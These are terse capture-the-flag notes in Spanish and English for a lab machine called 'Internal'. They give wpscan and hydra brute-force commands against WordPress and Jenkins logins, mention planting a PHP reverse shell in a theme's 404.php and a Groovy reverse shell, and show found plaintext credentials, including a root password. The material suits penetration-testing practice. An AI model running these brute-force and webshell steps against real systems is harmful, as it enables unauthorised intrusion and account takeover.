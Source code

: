 ```yaml
---
title: "internal Write-up    "
description: "Write-up internal , HARD MACHINE "
pubDate: "Jul 08 2022"
heroImage: "/image.jpg"
---
```

10.10.137.140

phpmyadmin: admin'@'localhost

wpscan --url http://10.10.137.140//internal.thm/blog -U admin --passwords rockyou.txt

admin/my2boys

aparence > theme settings y se pone php reverse shell pentest monkey 


_blog/wp-content/themes/twentyseventeen/404.php_


www-data@internal:/opt$ cat wp-save.txt 
Bill,

Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

aubreanna:bubb13guM!@#123

aubreanna@internal:/$ netstat -tan | grep 8080
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN     
aubreanna@internal:/$ 


ssh -L  9999:127.0.0.1:8080 aubreanna@internal.thm

-L para puerto local y : para el renvio de puerto 8080 al 9999


hydra 127.0.0.1 -s 9999 -V -f http-form-post "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in&Login=Login:Invalid username or password" -l admin -P /rockyou.txt" 

-f es la forma 
"/j_acegi_security_check:j_username : cabecera

groovy reverse shell

Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here.  Use them if you 
need access to the root user account.

root:tr0ub13guM!@#123

como estaba contectado por ssh , su root y la paswwd.tt
